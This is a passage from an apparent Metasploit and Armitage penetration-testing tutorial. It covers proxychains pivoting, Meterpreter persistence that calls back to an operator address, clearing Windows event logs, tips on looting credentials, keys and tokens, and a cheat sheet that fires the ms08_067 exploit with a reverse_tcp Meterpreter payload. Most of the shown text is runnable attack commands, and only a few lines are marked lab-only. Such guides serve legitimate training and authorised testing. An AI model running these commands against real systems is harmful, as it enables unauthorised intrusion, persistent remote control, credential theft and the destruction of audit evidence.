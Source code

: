 ```
# Add proxychains entry (ensure only one matching line at the end)
echo "socks4 127.0.0.1 1080" | sudo tee -a /etc/proxychains.conf

# Scan the internal network through the pivot
proxychains -q nmap -sT -Pn -n -p 80,445 192.168.56.0/24
```

Persistence and cleanup
```
# Quick-and-dirty persistence (lab only; noisy)
meterpreter > run persistence -U -i 30 -p 4444 -r <your_ip>

# Remove persistence later
meterpreter > run persistence -r

# Clear Windows event logs (if you have necessary privileges; lab-only)
meterpreter > clearev
```

GUI equivalents in Armitage
- Hosts → Nmap Scan → choose scan profile.
- Hosts → Import Hosts → import Nmap XML.
- Attacks → Find Attacks (generate suggestions).
- Right-click host → Attack → choose specific module.
- Right-click session icon → Interact → Meterpreter/Shell.
- Right-click session → Explore/Privilege Escalation/Pivoting → relevant actions (migrate, getsystem, add route, SOCKS).

## Practical tips
- Armitage is deprecated on many modern distros; if it’s missing, perform the same steps in msfconsole.
- Prefer manual exploitation over “Hail Mary” to reduce noise and avoid breaking services.
- Always set LHOST correctly (your VPN/Tun interface) and consider setg LHOST to avoid mistakes across modules.
- Use check where available to validate an exploit before running it.
- After getting a session, migrate to a stable process before heavy actions.
- Run local_exploit_suggester early; match results against OS/patch level.
- Loot methodically: creds, configuration files, keys, and tokens; avoid over-collecting noise.
- Pivoting: add routes from inside Meterpreter, use SOCKS and proxychains for reliable tooling.
- Document every change; plan cleanup (remove persistence, close sessions).

## Minimal cheat sheet (one-screen flow)
```
# 1) DB + Armitage
sudo systemctl start postgresql
msfdb init || msfdb start
armitage &    # Or msfconsole

# 2) Recon
sudo nmap -sS -sV -O -T4 -Pn -oA scan 10.10.10.0/24
msfconsole -q -x "db_import scan.xml; exit"

# 3) Global options
msfconsole
setg LHOST <your_ip>
setg LPORT 4444

# 4) Pick exploit (example)
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.23
set PAYLOAD windows/meterpreter/reverse_tcp
check
run
```